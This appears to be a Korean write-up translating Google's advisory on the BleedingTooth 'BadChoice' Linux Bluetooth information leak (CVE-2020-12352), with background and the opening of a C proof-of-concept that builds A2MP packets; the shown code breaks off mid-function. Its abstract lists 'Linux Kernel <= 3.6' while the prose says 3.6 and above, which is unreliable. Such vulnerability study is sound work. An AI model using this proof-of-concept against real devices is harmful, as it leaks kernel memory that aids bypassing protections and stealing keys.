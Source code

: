 # BleedingTooth - BadChoice
본 문서는 구글 보안팀의 [BadChoice 공식 문서](https://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq)를 번역하며 재구성한 글입니다.

## Abstract
```
CVE: CVE-2020-12352
Severity: Medium
Platform: Linux Kernel <= 3.6
Attack Type: Stack-Based Information Leak
```
본 글에서 다룰 취약점은 BleedingTooth 취약점 중 BadChoice 공격에 대한 내용으로 `CVE-2020-12352`번을 부여받은 취약점이다. 리눅스 커널 3.6 버전 이상에서 적용되며, [47f2d97d3881 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/a2mp.c?id=47f2d97d38816aaca94c9b6961c6eff1cfcd0bd6)에서 발생해서 [8e2a0d92c56e 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/a2mp.c?id=8e2a0d92c56ec6955526a8b60838c9b00f70540d)에 수정되었다. 취약점이 발생한 위치는 `net/bluetooth/a2mp.c` 파일이다.

공격자는 피해자의 bd 주소만 알고 있어도 스택 데이터를 탐색할 수 있다. 이는 KASLR을 우회하기 위한 다양한 포인터 정보를 습득할 수도 있고, 암호화 키와 같이 다른 중요한 정보가 포함될 수도 있다. 

## Proof Of Concept
### poc.c
```c++
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

typedef struct {
	uint8_t  code;
	uint8_t  ident;
	uint16_t len;
} __attribute__ ((packed)) amp_mgr_hdr;
#define AMP_MGR_HDR_SIZE 4

#define AMP_INFO_REQ 0x06
typedef struct {
	uint8_t id;
} __attribute__ ((packed)) amp_info_req_parms;

typedef struct {
	uint8_t  mode;
	uint8_t  txwin_size;
	uint8_t  max_transmit;
	uint16_t retrans_timeout;
	uint16_t monitor_timeout;
	uint16_t max_pdu_size;
} __attribute__ ((packed)) l2cap_conf_rfc;

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;

  // flag 필드(16bit)가 BC와 PB로 나누어져 있음.
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
```